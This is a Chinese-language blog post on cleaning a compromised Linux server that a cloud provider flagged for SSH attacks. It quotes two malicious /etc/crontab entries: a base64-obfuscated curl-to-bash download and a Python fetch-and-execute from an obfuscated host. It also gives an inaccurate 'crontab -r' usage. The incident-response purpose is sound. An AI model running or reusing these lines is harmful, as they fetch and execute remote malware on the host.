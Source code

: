 ```yaml
---
title: Linux 22端口对外攻击解决
date: 2023-06-25 09:22:36
permalink:  /linux/2305
sidebar: true
article: false #  是否未非文章页，非文章不显示 面包屑和作者、时间，不显示最近更新栏，不会参与到最近更新文章的数据计算中
comment: false #  评论区
editLink: false
---
```


近日同事的服务器遭受到攻击，怀疑是由于上网环境不安全，服务器链接信息被劫持，植入病毒造成服务器告警，告警信息如下：
::: danger
您的账号（账号ID: 100016685465，昵称：new）下的设备（IP：121.5.146.143），存在对其他服务器端口（TCP：22）的攻击行为，请您做好安全自查整改，并在24小时内停止上述行为。如逾期未处理，我们核实后将按相关法律法规和腾讯云服务协议要求对您停止服务。
:::
从告警信息可以看出是我们的服务器对外发起了攻击，后来对外访问得22端口被禁用，缓解了这个问题，但是没有从根本解决，接下来记录一下如何解决问题。首先你看到得自己的服务器状况一定是这样的

![](/assets/img/linux/2305/img.png)

面对进程占用我们可以 kill 掉，但还是会被重新启动，所以这种情况先检查是否有定时任务
```shell
# 显示 crontab 任务。 
crontab -l 
# 如果有非法定时任务删除他 
crontab -r 任务
```

但是我查看后同事的服务没有任何定时文件在执行，那我们需要查看 /etc/crontab 是否有非法定时任务
```
* * * * * root echo Y3VybCAtZnNTTCBodHRwOi8vMTQwLjk5LjMyLjQ4L2IyZjYyOC9jcm9uYi5zaAo=|base64 -d|bash|bash
* * * * * root python -c "import urllib2; print urllib2.urlopen('http://b.\\c\\l\\u-e\\.e\\u/t.sh').read()" >.1;chmod +x .1;./.1                                                                                                                                       
```
以上内容可以看到有两个定时任务一直再跑，其中一个一直在下载文件并且执行，此时我们干掉这两个任务，我在注掉这两个任务提示我

::: warning
/etc/crontab" E514: write error (file system full?) 系统文件已满
:::

此时需要删除一些文件释放空间以对以上内容进行保存
```shell
# 查看哪个文件占用较大可以删掉
du -sh 文件
```
以上完成后，重新启动定时任务
```shell
systemctl restart crond.service
```
找到进程所在文件，删除文件，停止进程
```shell
ps -ef | grep 18732
```
以上操作下来如果还有问题，那么可能需要排查所运行的服务是否有异常，比如docker是否有重复容器被启动等